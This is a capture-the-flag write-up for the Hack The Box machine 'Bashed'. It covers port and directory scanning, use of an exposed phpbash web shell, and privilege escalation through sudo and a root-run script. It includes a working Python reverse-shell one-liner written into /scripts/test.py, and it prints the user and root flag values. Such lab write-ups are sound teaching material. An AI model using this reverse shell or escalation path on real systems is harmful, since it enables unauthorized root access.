




# bashed

[link to the box](https://app.hackthebox.com/machines/Bashed)

1. [scanning](#scanning)
2. [exploiting](#exploiting)
3. [pwning](#pwning)


# scanning

as with anything, we start by scanning the host's ip on all ports:

```bash
$ nmap -sV -Pn -p- 10.10.10.68
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

looks like a website, lets try visiting it.



ignoring the content about phpbash, there is a search field on the left hamburger menu. unfortunately, this is purely an aesthetic search bar and has no function.

taking a look at phpbash homepage, it claims that phpbash was developed on the same server the webpage is hosted, hinting that somewhere on the server the phpbash file exists. in one of the screenshots, phpbash is located at `uploads/phpbash.php`, but requesting that does not work. lets use `dirbuster` to try and find directories to explore.

```bash
$ dirb http://10.10.10.68:80/
# (unimportant directories omitted for clarity)
...
==> DIRECTORY: http://10.10.10.68:80/dev/
...
```

lets check out http://10.10.10.68/dev/ as it has the most conspicuous name



and the phpbash shell exists here!

notice how the dates modified are december 2017. looking at the [github page](https://github.com/Arrexel/phpbash/commits/master), you can see many vulnerabilities patched __after__ the date this file was modified, meaning that this is likely vulnerable to all of those things.

..but lets not get too ahead of ourselves, lets find our user flag first.

# exploiting

open one of the `.php` files to open a shell. we can now execute some commands on the remote

```bash
$ cd /home/arrexel
$ cat user.txt
ef4f90de22deea594984a66aa5e2934b
```

theres our first flag.

time to escalate!

# pwning

lets analyse the oldest version of the file on the server, last modified on `2017-11-30`. this file is likely to be the same as [this one on the github](https://github.com/Arrexel/phpbash/blob/456da922df6ec1977cb734f7b6151ade96f607e4/phpbash.php)

(we can also just `cat phpbash.php`)

analysis of this file shows that we send a post request, which is unsanitised by the server and just executed. anything goes it seems!

first, lets do some basic manual enumeration.

```bash
$ whoami
www-data
$ sudo -l
User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

looks like we are able to exectue commands as users `scriptmanager` and `www-data`

continuing to dig around in the files, an interesting folder called `scripts` located in the root partition

```bash
$ ls /scripts/
Permission denied
```

lets try using our `scriptmanager` user:

```bash
$ sudo -u scriptmanager -- cat /scripts/*
f = open("test.txt", "w")
f.write("testing 123!")
f.close
testing 123!
```

looks like a cool python script! lets see if we can run it.

```bash
$ sudo -u scriptmanager -- python3 /scripts/
```


the script is unable to write to the file `test.txt`, but `scriptmanager` has access to write to the `test.py` file itself. looking at `ls -l`



some user with write permissions is periodically running `test.py`. we can write to `test.py` to make it create a reverse shell to our computer, and escalate up to said account.

we can also see that since the text file is owned by root, the account running the `test.py` file is root itself.

first, start an `nc` listener to recieve the reverse shell.

then write reverse shell code to `test.py` and wait for the connection!

```bash
$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your local ip>",<any sane port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' | sudo -u scriptmanager -- tee /scripts/test.py
```

after a few seconds, you should get a shell on your netcat listener!



this is root.

the root flag is located in `/root/root.txt`

```bash
$ cat /root/root.txt
65fe81d316b6bb7356264032e390877c
```

congrats! youre winner.
